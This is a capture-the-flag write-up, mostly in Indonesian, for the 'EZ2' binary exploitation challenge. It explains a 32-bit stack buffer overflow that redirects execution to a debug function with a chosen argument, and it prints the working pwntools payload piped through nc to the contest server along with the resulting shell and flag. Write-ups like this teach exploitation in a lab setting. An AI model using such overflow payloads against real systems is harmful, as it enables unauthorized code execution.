



# __ASGama CTF__ 
## _EZ2_

## Information
**Category:** | **Points:** | **Writeup Author**
--- | --- | ---
Binary Exploitation | 150 | l0l

**Description:** 

> EZ 2
>
> Ku ingin melompat
>
> nc asgama.web.id 40209

>
> [ez2](./ez2)

### ez2
```
ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=91febecb162e2e4c737a82cd97f7f38040c28e55, not stripped

gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : Partial
```

### ez2 Disassembly






Soal ini mirip seperti [Buffer2](../Buffer2/README.md) hanya saja selain overwrite `eip` ke fungsi debug, kita juga memberi argumen dalam fungsi ini, karena di dalam fungsi debug, address `ebp+0x8` dibandingkan dengan 0xaabbccdd.

*note: Dalam binary 32 file, konvensi pemanggilan fungsi adalah `'address fungsi'+'ebp'+'argumen1'+'argumen2'+...`


### Payload
`$ (python -c "from pwn import p32; print 'A'*(0x48+4)+p32(0x804851c)+'ebps'+p32(0xaabbccdd)";cat -) | nc asgama.web.id 40209`


### Result 
```
$ (python -c "from pwn import p32; print 'A'*(0x48+4)+p32(0x804851c)+'ebps'+p32(0xaabbccdd)";cat -) | nc asgama.web.id 40209
Debug Mode
ls    
flag
hehe
cat flag
GamaCTF{R0P_r0P_FTW}
```

### Flag 
GamaCTF{R0P_r0P_FTW}